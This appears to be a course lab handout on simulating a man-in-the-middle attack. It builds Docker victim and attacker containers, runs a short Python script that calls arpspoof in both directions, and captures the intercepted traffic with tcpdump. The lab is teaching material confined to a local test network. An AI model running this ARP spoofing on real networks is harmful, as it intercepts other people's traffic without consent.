 
```
# Network Security Lab: Man-in-the-Middle Attack Simulation with Docker

## Introduction
In this lab, you will simulate a Man-in-the-Middle (MITM) attack using Docker and Docker Compose. The goal is to set up two virtual machines: one representing a victim and the other an attacker, connected through a common network. You will use Wireshark to analyze network traffic and a custom script to mimic the behavior of Winarp.exe to carry out an ARP spoofing attack.

## Prerequisites
Before starting this lab, make sure you have the following installed:
- Docker Desktop (supports both x86 and Apple Silicon)
- Wireshark (for network traffic analysis)
- Basic understanding of ARP spoofing and networking concepts

## Lab Setup

### Step 1: Install Docker Desktop
Docker Desktop is required to simulate the victim and attacker machines. If you haven’t installed Docker Desktop, follow the installation instructions here: [Docker Desktop Installation](https://docs.docker.com/desktop/).

Once installed, verify that both Docker and Docker Compose are working by running:
```

```bash
docker --version
docker-compose --version
```

### Step 2: Clone the Lab Repository
The lab environment is available as a Docker Compose configuration. Clone the repository to your local machine using:

```bash
git clone https://github.com/ncat-grad-development/comp726-hw1-alt
cd comp726-hw1-alt
```

### Step 3: Docker Compose Configuration
The following `docker-compose.yml` sets up two containers (victim and attacker) connected through a common network. The attacker container will have elevated network permissions to simulate an MITM attack.

```yaml
version: '3'
services:
  victim:
    image: ubuntu:latest
    container_name: victim
    command: sleep infinity
    networks:
      - mitm_net
    cap_add:
      - NET_RAW

  attacker:
    image: ubuntu:latest
    container_name: attacker
    command: sleep infinity
    networks:
      - mitm_net
    cap_add:
      - NET_ADMIN

networks:
  mitm_net:
    driver: bridge
```

### Step 4: MITM Attack Script
The following script simulates the ARP spoofing attack. It should be executed in the attacker container.

```python
# Basic Python script to simulate MITM setup
import os

victim_ip = input("Enter victim IP: ")
gateway_ip = input("Enter gateway IP: ")

# Run ARP spoofing (this needs to be done in the attacker container)
os.system(f"arpspoof -i eth0 -t {victim_ip} {gateway_ip}")
os.system(f"arpspoof -i eth0 -t {gateway_ip} {victim_ip}")
```

### Step 5: Run the Lab Environment
Once you have the `docker-compose.yml` file and the MITM script in place, you can start the lab environment using the following command:

```bash
docker-compose up
```

This will start two containers: `victim` and `attacker`, both connected through a common network.

### Step 6: Launch the Attack
To launch the MITM attack, follow these steps:

1. Open a terminal window for the attacker container:
   ```bash
   docker exec -it attacker bash
   ```

2. Run the MITM Python script inside the attacker container. The script will prompt you to enter the victim's IP and the gateway IP.

   Assuming your victim container has an IP of `172.18.0.2` and the gateway has an IP of `172.18.0.1`, you would run:
   ```bash
   python3 mitm_script.py
   ```

   Then, input the victim IP and gateway IP as prompted:
   ```bash
   Enter victim IP: 172.18.0.2
   Enter gateway IP: 172.18.0.1
   ```

   This will initiate the ARP spoofing attack.

### Step 7: Generate Network Traffic on the Victim
You can simulate network traffic from the victim container by running basic network commands like `ping` or `curl`:

1. Open a terminal for the victim container:
   ```bash
   docker exec -it victim bash
   ```

2. Use the `ping` command to generate network traffic:
   ```bash
   ping 172.18.0.1  # Gateway IP
   ```

3. You can also try `curl` to generate HTTP requests:
   ```bash
   curl http://ncat.edu
   ```


```
### Step 8: Use `tcpdump` to Analyze Traffic

1. **Install `tcpdump`**:
   If `tcpdump` is not already installed in the attacker container, install it using the following command:
   ```bash
   apt-get update && apt-get install -y tcpdump
   ```

2. **Capture traffic on the Docker bridge network**:
   Start capturing traffic in the attacker container on the `eth0` interface (or the relevant interface for the container). Run the following command in the attacker container:
   ```bash
   tcpdump -i eth0 -w mitm_capture.pcap
   ```

   This will capture all traffic on the interface `eth0` and save it to the file `mitm_capture.pcap`.

3. **Analyze captured traffic**:
   After capturing the traffic, you can transfer the `.pcap` file to your local machine for analysis using a tool like Wireshark, or you can analyze it directly from the command line using `tcpdump`:

   - To view the contents of the capture file:
     ```bash
     tcpdump -r mitm_capture.pcap
     ```

   - To filter ARP traffic only:
     ```bash
     tcpdump -r mitm_capture.pcap arp
     ```

4. **Transferring the `.pcap` file**:
   If you need to analyze the capture in Wireshark (on a GUI machine), you can copy the `.pcap` file to your host machine. For example, using `docker cp`:
   ```bash
   docker cp attacker:/path/to/mitm_capture.pcap ./mitm_capture.pcap
   ```

   Then, you can open the `mitm_capture.pcap` file in Wireshark for further analysis.

### Step 9: Clean Up
When you are done with the lab, you can stop and remove the Docker containers by running:

```bash
docker-compose down
```

## Conclusion
In this lab, you successfully simulated a Man-in-the-Middle attack using Docker and Docker Compose. You learned how ARP spoofing works and used `tcpdump` to analyze the network traffic. Be sure to review the captured traffic to fully understand how MITM attacks can be executed and detected.

